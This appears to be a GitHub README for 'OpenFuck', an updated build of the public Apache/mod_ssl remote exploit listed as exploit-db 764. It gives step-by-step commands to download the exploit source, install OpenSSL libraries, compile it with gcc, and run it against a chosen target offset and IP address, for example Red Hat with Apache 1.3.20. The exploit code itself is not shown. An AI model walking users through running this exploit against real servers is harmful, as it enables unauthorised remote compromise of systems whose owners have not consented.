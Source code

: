 # OpenFuck
This is a tool to exploit apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

1.Download 764.c



2.Install libssl-dev & libssl1.0dev
~~~
sudo apt install libssl-dev
sudo apt install libssl1.0 dev
~~~

3.Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4.Run the exploit
~~~
./OpenFuck
~~~
5.See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.

#For Example
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
